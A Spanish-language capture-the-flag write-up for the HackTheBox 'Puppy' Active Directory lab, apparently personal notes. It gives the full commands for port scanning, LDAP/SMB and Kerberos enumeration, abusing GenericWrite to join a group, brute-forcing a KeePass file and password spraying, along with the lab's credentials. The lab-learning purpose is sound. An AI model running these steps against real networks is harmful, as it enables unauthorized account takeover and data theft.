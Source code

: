 levi.james:KingofAkron2025!
## Reconocimiento

Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

Los 
*Puertos*
`53/DNS`
`88/kerberos`
`111/rpcbind`
`389/LDAP`
`445/SMB`
`5985/WinRm`


`netexec ldap $IP 2>/dev/null` 
`LDAP 10.10.11.70 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)`

`iRealm --force $IP PUPPY.HTB DC`
Nos añade la maquina a `/etc/hosts` y nos añade el nombre del dominio y FQDN a `/etc/krb5.conf`

Verificamos las credenciales son validas con [[CRACKMAPEXEC-NETEXEC]]
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!'` si sale en verde es que las credenciales son validas

Buscamos recursos compartidos con [[CRACKMAPEXEC-NETEXEC]]
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

#### Enumeración Usuarios

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`
```     
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Enumeración de usuarios y verifica que exista en el dominio [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`

 O también podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
 `nxc ldap $IP -u users.txt -p '' -k`
  El error `KDC_ERR_PREAUTH_FAILED` la contraseña no funciona pero existe el usuario
  El error `KDC_ERR_CLIENT_REVOKED` existe el usuario


### AS-REP ROASTING (Sin creds)
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque. 

### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga serviceprincipalname (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque. 


Recopilar información del LDAP y se guarda en un `.zip` que este le usaremos para subir al blodhound
Subimos el archivo a bloodhound

Añadimos usuario a grupo DEVELOPERS por que tenemos generic write
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos vovemos a acceder al smb y vemos que tenmos acceso a DEV
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de keepass `kdbx` 
`recovery.kdbx`

Nos descargamos el archivo 
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

Lo añadimos a Keepassxc el archivo y nos pide una passwd
como no la tenemos la hacemos fuerza bruta

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Dentro del archivo encontramos contraseñas, que las añadimos a un archivo y lo guardamos
Y haremos fuerza bruta a los primeros usuarios encontrados
`nxc ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`
Nos encuentra el siguiente user
`[+] PUPPY.HTB\ant.edwards:Antman2025!`




